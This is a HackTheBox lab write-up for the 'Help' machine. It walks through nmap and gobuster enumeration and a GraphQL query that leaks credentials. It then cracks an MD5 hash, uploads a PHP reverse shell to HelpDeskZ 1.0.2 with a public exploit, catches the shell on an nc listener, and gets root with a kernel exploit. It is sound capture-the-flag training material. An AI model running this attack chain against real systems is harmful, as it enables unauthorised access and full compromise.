



# HackTheBox Help

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)


## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.121
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 22,80,3000

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.121 -p22,80,3000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 15:27 +07
Nmap scan report for 10.10.10.121
Host is up (0.27s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.80 seconds
```

### Help Desk Software

Port 80 is apache service, after enum hidden uri in with gobuster, there is a Help Desk Software in `/support`

```
[+] Files and directories
gobuster dir -k -u http://10.10.10.121:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
/support              (Status: 301) [Size: 314] [--> http://10.10.10.121/support/]
```



After review the [source code](https://github.com/evolutionscript/HelpDeskZ-1.0) of HelpDeskZ, I go to `/UPGRADING.txt` to check the version.

```
┌──(Hades㉿10.10.14.6)-[1.1:33.7]~/scripting
└─$ curl 10.10.10.121/support/UPGRADING.txt
Welcome to HelpDeskZ 1.0.2
==========================
```

Search public exploit, there are 2 exploit for HelpDeskZ 1.0.2

```
┌──(Hades㉿10.10.14.6)-[1.1:32.7]~/scripting
└─$ searchsploit HelpDeskZ 1.0.2
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                            | php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized F | php/webapps/41200.py
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Node.js Express API

Checking port 3000, it return message guide user Shiv `find the credentials with given query`

```
┌──(Hades㉿10.10.14.6)-[1.1:32.7]~/scripting
└─$ curl 10.10.10.121:3000                 
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

Based on result of `nmap`, Port 3000 is `Node.js Express framework`. After searching, I found [Running an Express GraphQL Server](https://graphql.org/graphql-js/running-an-express-graphql-server/) and defind Graphql at `http://localhost:4000/graphql` in the documents.

```
┌──(Hades㉿10.10.14.6)-[1.1:36.7]~/scripting
└─$ curl 10.10.10.121:3000/graphql
GET query missing.
```

Add query and grab a banner

```
┌──(Hades㉿10.10.14.6)-[1.1:32.8]~/scripting
└─$ curl '10.10.10.121:3000/graphql?query=\{__schema\{types\{name,fields\{name\}\}\}\}' --silent | python -m json.tool
{
    "data": {
        "__schema": {
            "types": [
                {
                    "fields": [
                        {
                            "name": "user"
                        }
                    ],
                    "name": "Query"
                },
                {
                    "fields": [
                        {
                            "name": "username"
                        },
                        {
                            "name": "password"
                        }
                    ],
                    "name": "User"
                },
<snip>
```

Using grabhql query, I got the value of username and password

```
┌──(Hades㉿10.10.14.6)-[1.1:32.6]~/scripting
└─$ curl '10.10.10.121:3000/graphql?query=\{user\{username,password\}\}' --silent | python -m json.tool 
{
    "data": {
        "user": {
            "password": "5d3c93182bb20f07b994a7f617e99cff",
            "username": "helpme@helpme.com"
        }
    }
}
```

Cracking md5 hash with john

```
┌──(Hades㉿10.10.14.6)-[1.1:32.7]~/walkthrough/hackthebox/help
└─$ john hash --wordlist=/home/kali/directory/rockyou.txt --format=raw-md5
<snip>
godhelpmeplz     (?)
<snip>
```

Login successfully to HelpDeskZ at port 80.



## Foothold

### HelpDeskZ File Upload

Follow exploit `php/webapps/40300.py`. First, upload reverse shell php to server at url `http://10.10.10.121/support/?v=submit_ticket&action=displayForm`



Trigger file shell at `/uploads/tickets/` using exploit `40300.py`.

```
┌──(Hades㉿10.10.14.6)-[1.1:27.2]~/walkthrough/hackthebox/help
└─$ python 40300.py 'http://10.10.10.121/support/uploads/tickets/' php-reverse-shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
<snip>
http://10.10.10.121/support/uploads/tickets/014a4af342600e47719c9c6eb22c483e.php
```

At listener, I have reverse shell

```
┌──(Hades㉿10.10.14.6)-[1.1:26.0]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.121] 60166
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 03:44:05 up  1:40,  0 users,  load average: 0.09, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
```

### (Authenticated) SQL Inj


## Privilege Escalation

### Linux Kernel < 4.4.0-116

Checking kernel, server is using Linux Kernel 4.4.0-116.

```
help@help:/tmp$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Search public exploit and I have `linux/local/44298.c`

```
┌──(Hades㉿10.10.14.6)-[1.1:27.2]~/walkthrough
└─$ searchsploit 4.4.0-116
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escala | linux/local/44298.c
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Compile exploit `linux/local/44298.c` and run it in the server, I got root.

```
help@help:/tmp$ gcc -o 44298 44298.c 
help@help:/tmp$ ./44298 
task_struct = ffff88003a99b800
uidptr = ffff88001ba61984
spawning root shell
root@help:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
```